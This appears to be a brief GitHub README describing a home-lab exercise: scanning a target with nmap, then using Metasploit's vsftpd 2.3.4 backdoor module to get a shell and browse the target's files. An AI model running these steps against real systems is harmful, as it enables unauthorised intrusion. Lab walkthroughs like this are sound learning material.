 # metasploit-kali
Using Metasploit to access vulnerable machines on my home lab

# Step 1
I used ``nmap -sV [Target PC IP]`` to scan for open/vulnerable ports. I will be exploiting TCP Port 21 using FTP
![image](https://github.com/user-attachments/assets/5b8357bf-5f0c-4b0b-a128-d9edd64eae47)

# Step 2
I then opened metasploit and used `use exploit/unix/ftp/vsftpd_234_backdoor` to open the exploit tool
![image](https://github.com/user-attachments/assets/d14fe601-90fc-4dc3-b807-28da1375f55e)

# Step 3
I use `set RHOST [Target IP]` to access the computer in a shell terminal
&nbsp;
![image](https://github.com/user-attachments/assets/485bad15-6538-4807-820c-f0fc582cd4e2)

# Step 4
I then navigate through their files to find my target file and do whatever I need to. 
&nbsp;
![image](https://github.com/user-attachments/assets/2be18301-3ff5-4427-a063-eb0a062b0fdd)
